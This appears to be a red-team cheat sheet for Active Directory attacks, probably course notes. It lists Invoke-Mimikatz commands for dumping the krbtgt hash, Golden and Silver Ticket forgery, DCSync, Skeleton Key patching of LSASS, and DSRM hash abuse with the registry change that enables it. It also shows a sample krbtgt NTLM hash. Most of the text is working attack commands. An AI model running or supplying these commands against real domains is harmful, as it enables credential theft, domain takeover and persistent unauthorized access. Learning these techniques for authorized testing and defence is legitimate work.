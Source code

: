 **Golden Ticket:**


Once we get inside DC with the privileges of Domain Administrator, we can execute following command to get krbtgt hash:
```Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <DC_computer>```

Once we get the hash of krbtgt account, we can generate our own TGT using:
```Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /krbtgt:<krbtgt_hash> id:<id> /groups:<group_id_optional> /startoffset:0 /endin:600 /renewmax:10080 /ptt"'```

> Found the following creds of krbtgt:


> RID  : 000001f6 (502)


> User : krbtgt


> LM   :


> NTLM : ff46a9d8bd66c6efd77603da26796f35


To see currently stored tickets:
``` klist```


**DCSync**


```Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\<username>"'```
Example: ```Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'```



**Silver Ticket:**


Golden ticket creates a TGT using krbtgt's hash, but Silver ticket attack creates a TGS using the hash of the service to be approached.

```Invoke-Mimikatz -Command '"kerberos::golden /domain:<domain_name> /sid:<sid> /target:<target_host_where_service_is_being_used> /service:<service_name> /rc4:<password_hash_for_machine_account> /user:<username> /ptt"'```


**Skeleton Key:**


Using skeleton key malware(attack/technique), the script modifies the LSASS(which handles the security and auth stuff in AD) gets modified and a secret key/password is made valid for every account other than their original password.
That secret key can be used to access any account.

```Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <domain_name>```

Note: This, by default sets the secret key/password as "mimikatz". But the above "patching" can only be performed once. To do it again, the DC needs to be restarted. Also, this gives us persistence to some extent but not for much long time.
As soon as the DC restarts, the skeleton key is removed.



**DSRM(Directory Service Restore Mode):**


When a computer is promoted to Domain Controller, a DSRM password is set which is the local admin password of that computer.
It can be extracted using:

Note: Domain admin privs are required

```Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <domain_controller>```

After obtaining the DSRM hash:

```Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<DC-computer> /user:Administrator /ntlm:<dsrm_hash> /run:powershell.exe"'```

Before using the above command to use DSRM hash, first we need to change a registry key for changing the logon behaviour of DSRM. For that, just get inside DC as DA, and execute the following powershell command:

```New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD```

Sometime, you will see an error that this propery already exists. That means you don't need to create a new property using "New-ItemProperty" but you have to use "Set-ItemProperty" to change the value of that property:

```Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2```

